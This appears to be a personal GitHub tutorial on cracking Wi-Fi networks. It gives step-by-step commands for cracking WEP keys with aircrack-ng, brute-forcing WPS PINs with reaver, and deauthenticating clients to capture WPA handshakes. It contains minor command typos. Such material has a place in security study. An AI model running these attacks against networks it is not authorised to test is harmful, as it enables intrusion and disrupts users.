 # Network Hacking (wifi)

## Objective
Network Hacking and gaining access to Wifi networks and cracking them.

### Skills Learned

- Sniffing on 5Gz and 2.5Gz wireless networks
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng

## Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

(The mode will be Monitor now)

- Sniffing on 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

- Sniffing packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

- Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
- Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
- Copy the key and remove the : and that would be the wifi password.

## Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
(not all routers will be cracked with these steps)

**Method for capturing handshake**

- Find the BSSID of the network with ifconfig
- Write a file via airodump-ng
```bash
root@kali:~# airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
- Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
- The handshake WPA will be saved in the file we created wpa_handshake.cap
- 


￼
